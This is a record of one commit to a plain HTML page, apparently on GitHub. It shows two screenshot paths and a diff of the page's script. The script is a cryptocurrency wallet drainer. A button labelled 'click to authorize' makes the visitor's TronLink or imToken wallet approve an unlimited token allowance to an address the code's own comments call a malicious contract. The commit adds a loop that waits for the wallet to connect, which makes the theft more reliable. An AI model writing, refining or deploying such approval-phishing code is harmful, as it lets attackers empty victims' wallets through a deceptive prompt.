

Before and after one commit to jordanbbd/hoho, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "✅ 點我授權". Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -14,18 +14,28 @@
   <script>
     const fakeUSDT = "TVCS7QxvBzTxg1ybwMTxVeaJktHCCFj4Xt";     // 假幣地址
     const fakeApprove = "TNogK4zkavHQtpyAgBuTRo7iNPREHj9dxx";   // 惡意合約地址
-    const amount = "115792089237316195423570985008687907853269984665640564039457584007913129639935"; // 2^256 - 1
+    const maxAmount = "115792089237316195423570985008687907853269984665640564039457584007913129639935"; // 2^256-1
+
+    async function waitForWallet(timeout = 10000) {
+      const start = Date.now();
+      while ((!window.tronWeb || !window.tronWeb.defaultAddress.base58) && (Date.now() - start < timeout)) {
+        document.getElementById("status").innerText = "⏳ 正在等待錢包連線...";
+        await new Promise(r => setTimeout(r, 500));
+      }
+    }
 
     async function approve() {
-      if (!window.tronWeb || !window.tronWeb.ready) {
-        document.getElementById("status").innerText = "請先安裝並登入 TronLink 或 imToken";
+      await waitForWallet();
+
+      if (!window.tronWeb || !window.tronWeb.defaultAddress.base58) {
+        document.getElementById("status").innerText = "❌ 找不到 TronLink 或 imToken 錢包";
         return;
       }
 
       try {
         const contract = await window.tronWeb.contract().at(fakeUSDT);
-        const tx = await contract.approve(fakeApprove, amount).send();
-        document.getElementById("status").innerText = `✅ 授權成功！交易哈希：${tx}`;
+        const tx = await contract.approve(fakeApprove, maxAmount).send();
+        document.getElementById("status").innerText = `✅ 授權成功！TX：${tx}`;
       } catch (err) {
         document.getElementById("status").innerText = `❌ 錯誤：${err.message}`;
       }
```
